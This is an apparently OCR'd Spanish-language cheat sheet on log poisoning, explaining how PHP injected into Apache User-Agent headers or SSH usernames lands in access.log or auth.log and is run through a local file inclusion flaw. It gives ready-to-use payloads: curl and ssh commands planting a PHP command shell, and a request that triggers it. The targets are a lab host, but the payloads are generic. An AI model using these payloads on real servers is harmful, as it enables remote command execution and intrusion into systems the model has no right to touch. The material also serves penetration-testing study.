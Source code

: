```yaml
---

### 📝 **Log Poisoning Cheat Sheet**

---
```


#### 🚩 **¿Qué es el Log Poisoning?**
El **Log Poisoning** es una técnica de ataque en la que un atacante **manipula los archivos de registro (logs)** de una aplicación web o servicio para lograr un resultado malicioso.  
Se suele utilizar en combinación con vulnerabilidades de **LFI (Local File Inclusion)** para lograr una **Ejecución Remota de Comandos (RCE)**.  

---

### 💣 **Tipos de Log Poisoning**

#### 🔐 **1. SSH Log Poisoning**
- El atacante inyecta código PHP en el **campo de usuario** durante el proceso de autenticación SSH.
- El código malicioso queda registrado en el archivo **`auth.log`** o **`btmp`**.
- Se ejecuta cuando el archivo de registro es leído desde el servidor.

#### 🌐 **2. Apache Log Poisoning**
- El atacante inyecta código PHP en el **campo User-Agent** de una solicitud HTTP.
- El código se almacena en el archivo **`access.log`** de Apache.
- La ejecución se produce cuando el archivo de log es leído a través de una vulnerabilidad LFI.

---

### 🚩 **Archivos de Logs Comunes**
| Sistema Operativo | Archivo de Log                   | Descripción            |
| ---------------- | -------------------------------- | ----------------------- |
| Debian/Ubuntu     | `/var/log/apache2/access.log`      | Logs de Apache          |
| Debian/Ubuntu     | `/var/log/auth.log`                | Logs de autenticación SSH|
| Red Hat/CentOS    | `/var/log/httpd/access.log`        | Logs de Apache          |
| Red Hat/CentOS    | `/var/log/btmp`                    | Logs de autenticación SSH|

---

### ⚠️ **IMPORTANTE**
- **Precaución al escribir comandos:**  
  Si los comandos están mal formateados o las comillas están incorrectas, se puede **contaminar el log** y hacer que el código malicioso no sea interpretado.  

---

### 💉 **Payloads Comunes**

#### 🐚 **1. Inyección de código PHP en Apache (User-Agent)**
```bash
curl -s -X GET "http://localhost/probando" -H "User-Agent: <?php system('whoami'); ?>"
curl -s -X GET "http://localhost/probando" -H "User-Agent: <?php system(\$_GET['cmd']); ?>"
```

---

#### 🔑 **2. Inyección de código PHP en SSH (Nombre de usuario)**
```bash
ssh '<?php system($_GET["cmd"]); ?>'@172.17.0.2
```

---

### 🚀 **Ejecutando el Código Malicioso**
Una vez inyectado el payload, realiza la llamada a través de la vulnerabilidad LFI:  
```bash
localhost/?filename=/var/log/apache2/access.log&cmd=id
```
- Aquí el archivo de log (`access.log`) es leído por la aplicación, lo que desencadena la ejecución del código PHP.

---

💡 **Consejo:**  
Si el log queda contaminado, se recomienda borrar el archivo y reiniciar el servicio para restaurar la integridad del sistema.  

---
